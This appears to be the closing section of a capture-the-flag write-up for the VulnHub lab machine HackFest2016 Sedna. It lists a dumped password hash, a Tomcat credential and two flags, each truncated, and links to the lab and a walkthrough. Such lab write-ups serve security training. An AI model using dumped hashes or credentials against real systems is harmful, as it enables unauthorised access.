crackmeforpoints:$6$p22wX4fD$RRAamkeGIA56pj4MpM7CbrKPhShVkZnNH2NjZ8JMUP6Y/1upG.54kSph/HSP1LFcn4.2C11cF0R7Qmo..........................
```
### Credentials
``` {.python .numberLines}
tomcat: tomcat/submitthisforp.....
```
### Flags
``` {.python .numberLines}
bfbb7e6e6e88d9ae66848b9ae.......
a10828bee17db751de4b93661.......
```

## References
[+] <https://www.vulnhub.com/entry/hackfest2016-sedna,181/>  
[+] <https://www.n00py.io/2017/03/vulnhub-walkthrough-hackfest2016-sedna/>  
